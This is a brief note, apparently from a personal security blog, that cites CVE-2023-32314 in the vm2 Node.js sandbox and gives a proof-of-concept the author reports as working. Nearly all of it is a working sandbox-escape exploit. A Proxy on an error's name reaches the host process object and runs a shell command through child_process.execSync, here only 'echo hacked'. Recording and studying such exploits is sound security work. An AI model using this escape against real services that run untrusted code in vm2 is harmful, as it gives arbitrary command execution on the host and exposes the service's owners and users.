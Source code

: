 The article features [CVE-2023-32314](https://www.cve.org/CVERecord?id=CVE-2023-32314) 

Also I got a PoC and that PoC worked.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

![](images/Pasted%20image%2020240328233328.png)
